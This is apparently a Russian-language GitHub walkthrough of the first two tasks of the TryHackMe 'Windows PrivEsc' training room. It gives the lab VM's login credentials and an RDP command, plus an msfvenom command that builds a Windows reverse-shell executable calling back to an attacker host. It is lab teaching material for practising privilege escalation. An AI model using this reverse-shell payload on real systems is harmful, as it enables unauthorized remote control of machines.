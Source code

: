 

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Windows PrivEsc](https://tryhackme.com/r/room/windows10privesc) 

Всего 18 заданий:
## Задание 1
Цель этой комнаты — провести вас через различные методы повышения привилегий Windows. Для этого вам необходимо 
сначала развернуть намеренно уязвимую виртуальную машину Windows. Эта виртуальная машина была создана  Саги Шахаром 
в рамках его  локального семинара по повышению привилегий, но была обновлена Tib3rius в рамках его курса  
Windows Privilege Escalation for OSCP and Beyond!  на Udemy. Полные объяснения различных методов, используемых в 
этой комнате, доступны там же, вместе с демонстрациями и советами по поиску повышений привилегий в Windows.

Прежде чем пытаться получить доступ к виртуальной машине Windows, убедитесь, что вы подключены к TryHackMe VPN или 
используете браузерный экземпляр Kali ! 

RDP должен быть доступен на порту 3389 (запуск службы может занять несколько минут). Вы можете войти в учетную 
запись "user", используя пароль  " password321 ":

`xfreerdp /u:user /p:password321 /cert:ignore /v:MACHINE_IP`

Следующие задачи проведут вас через различные методы повышения привилегий. После каждого метода у вас должна быть 
оболочка администратора или SYSTEM.  Не забудьте выйти из оболочки и/или заново установить сеанс как учетная запись 
"пользователя" перед началом следующей задачи!

### Ответьте на вопросы ниже
Разверните виртуальную машину Windows и войдите в систему, используя учетную запись «пользователь».
```commandline
Ответ не нужен
```

## Задание 2
На Kali сгенерируйте исполняемый файл обратной оболочки (reverse.exe) с помощью msfvenom.  Обновите IP-адрес LHOST 
соответствующим образом: 

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe`

Перенесите файл reverse.exe в каталог C:\PrivEsc в Windows. Существует много способов сделать это, однако самый 
простой — запустить SMB- сервер в Kali в том же каталоге, что и файл, а затем использовать стандартную команду 
копирования Windows для переноса файла.
